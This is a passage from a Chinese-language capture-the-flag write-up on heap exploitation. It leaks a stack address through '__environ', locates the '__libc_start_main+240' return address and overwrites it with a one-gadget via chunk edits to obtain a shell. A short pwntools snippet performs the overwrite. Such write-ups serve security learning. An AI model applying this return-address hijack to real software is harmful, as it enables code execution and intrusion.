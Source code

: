 这里写入 '\_\_environ' 函数然后根据题目特点把 栈地址泄露出来了

[![](assets/1701612371-0e325026f69671d030cd41e876ae171c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152106-d7e0f61e-17df-1.png)  
计算一下偏移，得到 '\_\_libc\_start\_main+240' 的地址，也就是程序的返回地址

```plain
edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")
```

然后修改 chunk\_ptr1 为 '\_\_libc\_start\_main+240'

[![](assets/1701612371-e23460ca4d57b2181fcbccf2e2e6f2bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152124-e2f42008-17df-1.png)  
这样编辑 chunk2 就能把 '\_\_libc\_start\_main+240' 修改为 og 了  
然后直接退出就 getshell 了
